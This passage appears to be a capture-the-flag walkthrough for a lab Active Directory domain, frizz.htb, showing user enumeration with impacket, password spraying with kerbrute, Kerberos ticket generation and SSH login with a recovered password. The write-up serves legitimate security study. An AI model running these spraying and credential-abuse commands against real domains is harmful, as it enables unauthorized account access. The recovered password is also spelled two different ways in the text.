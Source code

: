 okay, we found a password, but for what user? 
we do not have that information, only one way to find out, and thats via password spraying
#### Password spraying

First, lets **gather all the users**, in order to create our sprayable list, personally i prefer GetADUsers.py for this: https://github.com/fortra/impacket/blob/master/examples/GetADUsers.py
```shell
GetADUsers.py -k -no-pass frizz.htb/ -dc-host frizzdc.frizz.htb -all | awk '{print $1}' | tail -n +6 > users.txt
```
(this part ```| awk '{print $1}' | tail -n +6``` skips unnecessary output like headers or status messages from impacket)

This will put the usernames on a txt file (but without the @domain, only usernames, because thats what kerbrute requires in the user list).

Then **spray** the users we found for this password:
```shell
kerbrute passwordspray --dc frizzdc.frizz.htb -d frizz.htb users.txt '!suBci@MehTed!R'
```
it appears that this pass is associated with user M.SchoolBus
```
[+] VALID LOGIN: M.SchoolBus@frizz.htb:!suBci@MehTed!R
```

so the creds for M.schoolbus user are:
```shell
M.schoolbus
!suBcig@MehTed!R
```

##### Logging in as M.schoolbus

Great! we now have the creds for the M.schoolbus user, we will use the same steps we did for f.frizzle to login as M.schoolbus user, so generating ticket, and then login with ssh via GSSAPI authentication

First adjust/sync your time to the domain
```shell
ntpdate frizzdc.frizz.htb
```
Generate ticket for M.schoolbus user (instead of kinit we did for f.frizzle, nothing changes, there are just multiple ways to do it)
```shell
impacket-getTGT frizz.htb/'M.schoolbus':'!suBcig@MehTed!R' -dc-ip frizzdc.frizz.htb
```
Then login using the ```-K``` parameter, which enables GSSAPI authentication and forwarding of credentials.
```shell
ssh M.schoolbus@frizz.htb -K
```
and we are in!
##### Enumeration

okay, we got in as M.schoolbus, what now? we can start enumerating by inspecting the groups that this user belongs to:
```shell
whoami /groups
```
output: (removed attributes and part of sid column to fit vertically here)
```text
Group Name                                   Type             SID
============================================ ================ ======================
Everyone                                     Well-known group S-1-1-0
BUILTIN\Remote Management Users              Alias            S-1-5-32-580
BUILTIN\Users                                Alias            S-1-5-32-545
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11
NT AUTHORITY\This Organization               Well-known group S-1-5-15
```
